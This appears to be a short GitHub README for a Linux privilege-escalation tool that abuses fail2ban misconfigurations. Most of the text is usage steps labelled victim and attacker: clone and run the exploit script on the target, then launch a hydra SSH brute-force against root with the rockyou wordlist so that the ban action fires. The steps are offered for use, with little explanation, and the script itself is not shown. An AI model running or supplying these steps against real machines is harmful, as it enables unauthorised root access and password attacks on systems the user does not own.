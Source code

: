 
# Privilege Escalation via fail2ban
In Linux, fail2ban is mostly used to protect the SSH service. 
If the daemon detects several unsuccessful ssh login attempts, it executes a command that blocks the IP address.
So misconfigurations can lead to privilege escalation.

![alt text](https://github.com/rvizx/fail2ban/blob/main/image.png?raw=true)

# Usage
```
git clone https://github.com/rvizx/fail2ban
```

@victim
```
chmod +x fail2ban
./fail2ban
```

@attacker
```
hydra <ip-addr> -l root -P /usr/share/wordlists/rockyou.txt ssh
```

# Notes
https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7 <br>
https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/

